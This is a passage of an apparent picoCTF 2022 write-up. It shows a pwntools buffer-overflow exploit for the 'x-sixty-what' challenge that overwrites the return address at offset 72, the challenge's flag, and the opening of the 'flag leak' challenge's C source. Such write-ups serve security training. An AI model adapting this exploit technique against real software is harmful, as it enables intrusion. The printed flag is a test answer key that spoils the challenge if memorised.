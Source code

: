 ```py
# Set up pwntools for the correct architecture
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'error'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

rip_offset = 72
info('located RIP offset at {a}'.format(a=rip_offset))

# Build payload
payload = flat({
    rip_offset: p64(0x40123b)
})

# Save payload to file
write('payload', payload)

# Start a new process
io = start()

# PWN
io.sendlineafter(b"flag: \n", payload)
print(io.recv())
# Receive the flag
io.interactive()
```

![IMG](/assets/images/picoctf2022-binexp/x-sixty-what.png)

Flag:
```
picoCTF{b1663r_15_b3773r_11c407bc}
```

# flag leak
## Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong?

This challenge provided a binary and its C source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

```